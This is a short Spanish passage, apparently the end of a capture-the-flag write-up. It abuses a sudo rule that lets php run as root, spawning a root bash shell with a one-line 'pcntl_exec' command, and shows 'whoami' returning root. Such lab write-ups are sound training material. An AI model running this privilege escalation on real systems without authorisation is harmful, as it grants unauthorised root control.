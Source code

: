 Vemos que podemos ejecutar el binario `php` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo php -r "pcntl_exec('/bin/bash', ['-p']);"
```

Info:

```
root@fdcdb8cfa364:/tmp# whoami
root
```

Con esto veremos que seremos `root`, por lo que habremos terminado la maquina.
